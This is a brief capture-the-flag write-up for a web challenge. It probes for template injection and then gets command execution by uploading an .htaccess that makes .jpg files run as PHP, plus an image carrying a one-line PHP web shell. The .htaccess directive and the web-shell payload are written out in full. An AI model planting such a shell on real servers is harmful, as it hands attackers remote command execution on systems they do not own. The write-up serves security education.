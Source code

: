 If you prefer the text version : [Write_up_latex](./WU_website_renderer.pdf)

# Reconnaissance

We clearly recognize that there's a potential SSTI (Server-Side template injection) in this challenge. The idea for beginning the exploiting part is to run a basic payload to see what it gives:

 # Exploitation

![i2](6.jpg)

So we see that the {7*7} is well interpreted

![i2](14.jpg)


First we'll upload an .htaccess that will allow us to upload jpg files but interpreted as php. The trick here is to inject some php code in the jpg file, we can use burpsuite for it.
The .htaccess file contains `AddType application/x-httpd-php .jpg`.

We can then upload an image with the following code giving us a web shell:
`<?php if(isset($_GET["cmd"])) system($_GET["cmd"]); ?>`

![i2](17.jpg)

Let's gooo our getshell works we can use the command we want, starting with a classic ls and some others commands until we reach the flag by exploring.

![i2](18.jpg)
![i2](19.jpg)
![i2](20.jpg)

Flagged !
